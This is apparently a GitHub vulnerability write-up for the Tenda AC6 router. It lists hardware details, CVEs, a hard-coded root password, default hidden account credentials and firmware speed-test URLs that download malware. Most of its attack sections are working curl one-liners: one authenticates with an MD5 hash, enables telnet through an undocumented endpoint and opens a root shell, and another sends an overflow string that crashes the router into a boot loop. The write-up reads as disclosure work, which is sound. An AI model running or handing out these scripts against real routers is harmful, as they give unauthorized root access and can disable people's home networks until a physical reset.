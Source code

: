 <table>
<tr>
	<td colspan=2><b><h2 align=center>Equipment Overview
<tr>
	<td colspan=2 align=center>
		<center>
		<img height=150px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20200927_174832.jpg"> 
		<img height=150px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20200927_175341.jpg"> 
		<img height=150px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20201024_163850.jpg">
<tr>
	<td colspan=1> <b>Router: 
	<td colspan=1>Tenda AC1200 (Model AC6) Smart Dual Band WiFi Router
<tr>
	<td colspan=1><b>Firmware Version:
	<td colspan=1>V15.03.06.51_multi 
<tr>
	<td colspan=1><b>Linux Version:
	<td colspan=1>Linux linux-e06efcf50f50 3.10.90 #5 Thu Oct 8 17:04:23 CST 2020 mips GNU/Linux
<tr>
	<td colspan=1><b>GCC Version:
	<td colspan=1>4.4.7
<tr>
	<td colspan=1><b>Busybox Version:
	<td colspan=1>v1.19.2
<tr>
	<td colspan=1 width=25%><b>Busybox Functions:
	<td colspan=1>[, [[, adduser, arp, arping, ash, awk, brctl, cat, chmod, clear, cp, cttyhack, cut, date, deluser, depmod, echo,
        egrep, eject, env, expr, false, fdisk, fgrep, free, grep, halt, ifconfig, init, insmod, kill, killall, killall5,
        linuxrc, ln, login, ls, lsmod, mdev, mkdir, modinfo, modprobe, more, mount, mountpoint, mv, netstat, nslookup,
        passwd, ping, ping6, poweroff, printf, ps, pstree, pwd, reboot, reset, rm, rmdir, rmmod, route, runlevel, sed, sh,
        sleep, softlimit, split, sulogin, tar, telnet, telnetd, test, tftp, top, touch, traceroute, traceroute6, true, tty,
        umount, uname, unzip, uptime, usleep, vconfig, vi, wget, yes
<tr>
	<td colspan=1><b>Sys Type: 
	<td colspan=1>RTL8197F
<tr>
	<td colspan=1><b>Hardward Access: 
	<td colspan=1>SPI, UART
<tr>
	<td colspan=1><b>SPI Flash:
	<td colspan=1>25Q64JVSIQ (<a href="https://github.com/cecada/Tenda-AC6-Root-Acces/blob/main/docs/w25q64jv%20spi%20revc%2006032016%20kms.pdf">Spec Sheet</a>)
<tr>
	<td colspan=1><b>HTTP Admin Access: 
	<td colspan=1>192.168.0.1 (default) or 192.168.1.1
</table>

Found issues: 

* CVE-2020–10988 overview: root password is Fireitup, and static. This vulnerability persists to this model and version.
* HTTP admin access has a static username (admin)
* Admin password is only secured with a simple MD5 hash
* Default speed test settings located on mtdbblock5 point to urls which download malware:
  * speedtest.addr.list7=sh.vnet.cn/downloads/elive1.16.exe?0.4812286039814353 ([Hybrid Report](https://www.hybrid-analysis.com/sample/4c15a77c71218d7feef52d9c5504c0d32d8e580819186a4bb708d3c120e7b15e))
  * speedtest.addr.list6=viewer.d.cnki.net/CNKI%20E-Learning%202.4.1-20140714.exe ([Hybrid Report](https://www.hybrid-analysis.com/sample/bfa165373e5f5ed6ba4e73440bc9bb94d6089d8edb784db5a4a011d8ee87f790/5f8440c84e139b56f00f0728))
* (CVE-2020-28093) Default system accounts (admin, support, user, and nobody) are hidden from the HTTP admin console, have shell access, and all have 1234 as the password.
* It is possible to form an HTTP post will result in a denial of service by causing the router to crash and enter a boot loop.

<h2>Logging in / Getting Admin Password</h2>

Router admin is done via a web portal which is defaulted to 192.168.0.1. The only credentials which is asked for is the password. The username appears to be static admin. Prior to the HTTP POST request the client hashes the password using MD5. A sample curl would look like:

```
curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' 
-H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' 
-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest'
-H 'DNT: 1' -H 'Connection: close' --data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4'
--url 'http://192.168.0.1/login/Auth'
```
2a3ffeeda250174eaeba880553e0dfd4 = mathafter067

This results in 301 redirect to main.html, and of critical importance, a cookie is set with the hash + a pseudo-random 6 byte string. For example: 2a3ffeeda250174eaeba880553e0dfd4<b>piacvb</b> With this "token" we can do a lot of harm. 

Given the simplicity of authentication, the acceptance, and auto-population of default password, creating a brute-force script to find the password, and thus the MD5 hash is trivial.

Why is this a problem? I mean, if you have admin creds shouldn't you be able to turn on telnet? Perhaps. However, on this model the admin user interface does not have an interface for this. I have read some other model do. This seems to be an API access that wasn't intended for this model.

<h2>Turning on Telnet (CVE: CVE-2020-28093)</h2>
With this router, telnet is not on by default. I discovered a method, once you are connected and brute-forced the admin password you can turn it on without having to physically access the hardware. 

```
ahash=$(curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' 
-H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' 
-H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' --data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4' 
--url 'http://192.168.0.1/login/Auth'| grep Set-Cookie | cut -d\= -f2 | cut -d\; -f1); if [ -z "$ahash" ]; then echo -e "\n\nCouldn't get token? If you were logged in you are not logged out; try again. Else, check IP address."; else curl -isk -X 'GET' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' 
-H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' 
-H "Cookie: password=$ahash" -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' 
-H 'Connection: close' --url 'http://192.168.0.1/goform/telnet'; echo -e "\n\nSuccess!"; telnet 192.168.0.1; fi
```
Because I am lazy, I created a "one-liner" which will:
* Grab the "token"
* Check for success
* Turn on telnet
* Launch telnet

Telnet will ask for the username/password which is root/Fireitup
Device R00ted with no access to the hardware needed

<h2>Denial of Service: Crash it</h2>
Once you have brute forced the admin password it is possible to send an HTTP POST request which will trigger a crash, and result in a boot-loop.

```
overflow=$(perl -e 'print "A" x 1024');ahash=$(curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' 
-H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' 
--data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4' --url 'http://192.168.0.1/login/Auth'| grep Set-Cookie | cut -d\= -f2 | cut -d\; -f1); 
if [ -z "$ahash" ]; then echo -e "\n\nCouldn't get token? If you were logged in you are not logged out; try again. Else, check IP address."; else curl -isk 
-X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' 
-H 'Referer: http://192.168.0.1/wireless_ssid.html?random=0.54930120660236&' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' 
-H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' -H “Cookie: password=$ahash” -H 'Sec-GPC: 1' -b "password=$ahash" 
--data-binary "wrlEn=1&wrlEn_5g=1&security=wpawpa2psk&security_5g=wpawpa2psk&ssid=Tenda_FC6EE0&ssid_5g=Tenda&hideSsid=0&hideSsid_5g=0&wrlPwd=$overflow&wrlPwd_5g=mathafter067" 
--url 'http://192.168.0.1/goform/WifiBasicSet';fi
```
Like the telnet vuln, I scripted this out. 
* Generate an overflow string
* Get login "token"
* Check if the login was a success or not
* If it was, post overflow string as a setting change to the wifi password

The router will crash, and only a physical hard factory reset will restore it. 

<table>
<tr>
	<td colspan=2 align=center>
		<center>
		<img height=400px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/Screenshot_20201024_201441.png"> 
	<td colspan=2 align=center>
		<center>
		<img height=400px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/Screenshot_20201024_201653.png"> 
</table>
